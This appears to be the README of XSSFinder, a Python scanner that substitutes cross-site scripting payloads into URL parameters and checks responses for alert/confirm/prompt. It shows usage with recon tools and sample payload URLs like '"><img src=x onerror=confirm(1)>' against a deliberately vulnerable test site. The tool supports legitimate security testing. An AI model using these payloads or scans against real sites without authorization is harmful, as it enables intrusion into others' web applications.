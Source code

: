 # XSSFinder

A Light Weight Tool for checking Cross Site Scripting (XSS) vulnerabilities by replacing xss payloads in the parameters values and checking 'confirm(1),prompt(1),alert(1)' in the response.

## Installation
```
git clone https://github.com/rix4uni/XSSFinder.git
cd XSSFinder
#pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 xssfinder.py
```

Multiple URLs:
```
cat xss-urls.txt | python3 xssfinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf xss | uro | anew | python3 xssfinder.py --threads 50
echo "http://testphp.vulnweb.com" | waybackurls | gf xss | uro | anew xss-urls.txt # use this output in Multiple URLs
```
## To get best results
```
open xss_payloads.txt add your favraioute payloads
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all xsspayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=<img src=x onerror=confirm(1)>&cat=<img src=x onerror=confirm(1)>
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file="><img src=x onerror=confirm(1)>&cat="><img src=x onerror=confirm(1)>
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file="><svg/onload=confirm(1)>&cat="><svg/onload=confirm(1)>
```
